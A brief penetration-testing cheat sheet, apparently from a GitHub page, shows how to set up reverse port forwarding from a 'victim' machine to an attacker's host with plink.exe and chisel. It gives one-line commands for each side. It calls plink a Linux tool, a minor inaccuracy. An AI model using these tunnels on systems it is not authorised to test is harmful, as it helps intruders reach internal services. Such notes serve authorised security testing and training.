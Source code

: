 # Plink.exe
Plink allow port forwarding on linux hosts.

From victim machine, we can listen on the attacker's port and forward it to a local port.

``` plink.exe -l <username> -pw <password> <ip> -R 8888:127.0.0.1:8888 ```

# Chisel
To obtain the same results as above:

(Run on attacker)

``` chisel.exe server -p 9000 --reverse ```

(Run on victim)

``` chisel.exe client <attacker ip>:9000 R:8888:127.0.0.1:8888 ```

This way, any traffic sent from my kali on port 8888 will be sent to victim's local loopback IP on port 8888.
